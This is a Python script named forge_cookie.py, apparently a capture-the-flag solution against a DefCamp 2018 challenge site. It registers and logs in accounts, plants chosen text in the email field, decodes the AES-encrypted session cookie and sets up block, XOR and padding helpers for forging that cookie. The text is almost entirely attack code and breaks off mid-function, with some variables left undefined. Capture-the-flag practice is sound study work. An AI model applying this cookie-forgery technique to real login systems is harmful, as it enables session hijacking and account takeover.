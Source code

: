 ### forge_cookie.py

```python
from base64 import b64encode, b64decode
from urllib import quote, unquote, quote_plus
import requests
import socket
import time
import binascii
import logging
import sys
import urllib3
from Crypto.Cipher import AES

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

DOMAIN = "https://admin.dctfq18.def.camp"

def register(s, user, passw, email):
    return s.post(DOMAIN + "/register.php", data={"confirm_password": passw, "email": email, "password": passw, "username": user})

def login(s, user, passw):
    res = s.post(DOMAIN + "/", data={"username": user, "password": passw, "lg_remember": "on"})
    assert("Admin</div>" in res.text)
    return res

def changeEmail(s, user, passw, email):
    s.post(DOMAIN + "/profile.php", data={"confirm_password": passw, "email": email, "password": passw, "username": user})
    s = requests.session()
    res = login(s, user, passw)
    print(res)
    print(res.text)
    return res

def getCookie(user, passw):
    s = requests.session()
    res = login(s, user, passw)
    return s.cookies['user']

def decodeCookie(cookie):
    un_cookie = unquote(cookie)
    return (b64decode(un_cookie[:-6]), un_cookie[-6:])

def blocks(chain):
    cnt = len(chain) / 16
    return [chain[16*i:16*(i+1)] for i in range(cnt)]

def xor(a, b):
    return ''.join(chr(ord(x)^ord(y)) for x,y in zip(a, b))

def pad(x):
    plen = 16-len(x)%16
    return chr(plen) * plen

def getPreblock():
    s = requests.session()
    res = login(s, user, passw)
    changeEmail(s, user, passw, mail_start + "a"*16)
    cookie = getCookie(user, passw)
    aes_part, len_str = decodeCookie(cookie)

```